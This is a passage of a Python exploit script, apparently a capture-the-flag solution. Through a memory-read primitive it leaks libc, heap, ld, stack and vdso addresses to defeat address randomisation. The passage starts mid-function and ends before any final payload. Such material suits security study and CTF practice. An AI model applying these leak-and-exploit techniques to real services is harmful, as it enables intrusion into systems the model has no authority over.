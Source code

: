 ```python
    sl(p,str(answer))
    sleep(2)



def exploit(p,e,l,ld):


    # Leak got entry for puts
    got_puts = get_leak(p,e,e.got["puts"])
    l.address = got_puts - 0x80e50
    log.info(f"Leaked libc address {hex(l.address)}")

    # main_arena+96
    heap_leak = get_leak(p,e,l.address + 0x21ace0) - 0x3a0
    log.info(f"Leaked heap adddress {hex(heap_leak)}")

    # Leak ld from libc got _dl_audit_preinit@GLIBC_PRIVATE
    ld.address = get_leak(p,e,l.address + 0x21a1b8) - 0x1b660
    log.info(f"Leaked ld {hex(ld.address)}")

    # Leak stack from __libc_environ
    stack_leak = get_leak(p,e,l.sym["__libc_argv"])

    vdso_ptr = get_leak(p,e,ld.address+0x3b890)
    log.info(f"Leaked vdso ptr {hex(vdso_ptr)}")

    libc_argv = get_leak(p,e,stack_leak)


    # Find base stack
    stack_size = 21000
    stack_addr = libc_argv
    for i in range(0,21000,8):
        #addr = stack_leak + i
        addr = (libc_argv & 0xfffffffffffffff8) + i
        leak = get_leak(p,e,addr)
        leak = cun.long_to_bytes(leak)
        print(leak)

        val = b"llahc/."

        if args.REMOTE:
            val = b"nur/ppa"
        else:
            val = b"llahc/."

        print(f"Val {val} Leak {leak} at {hex(addr)}")
        if (leak == val):
            stack_addr = addr
            log.info(f"found chall at {hex(addr)}")
            break

    start_stack = (stack_addr - 0x21000 + 0x10) & 0xfffffffffffff000
    #start_stack = (stack_addr - 21000 + 0x10)

    #vvar_addr = (stack_addr + 0x9000) & 0xfffffffffffff000
    vvar_addr = vdso_ptr - 0x4000

    log.info(f"Leaked beggining of stack {hex(start_stack)}")

    sl(p,str(0))

```